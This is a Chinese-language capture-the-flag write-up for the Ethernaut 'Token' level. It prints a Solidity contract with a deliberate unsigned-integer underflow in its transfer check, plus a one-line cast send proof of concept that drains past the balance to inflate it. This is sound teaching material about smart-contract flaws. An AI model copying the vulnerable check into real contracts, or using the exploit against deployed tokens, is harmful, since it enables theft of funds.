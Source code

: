 #   Level 5 Token
實例地址：`0x890b079EF068570fD19d74DcbFB4D378Bf7dad2C`

##  題目說明
這一關的目標是駭入下面這個簡單的代幣合約。

你一開始會被給 20 個代幣。如果你找到方法增加你手中代幣的數量，你就可以通過這一關，當然代幣數量越多越好。

可能會有用的資訊

*   什麽是 odometer?

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

##  POC
這合約的漏洞是溢位問題，uint256 為非正整數，當他被減為負數時候，變數內容呈現正數而不是負數。隨機轉給別人超過 20 塊，造成溢位導致自身餘額超過 20。

```bash
cast send --account=Panda  0x890b079EF068570fD19d74DcbFB4D378Bf7dad2C "transfer(address,uint256)(bool)" 0x23091d5f37FBeAd4C5109A0cDb2A00989ADA0836 21
```


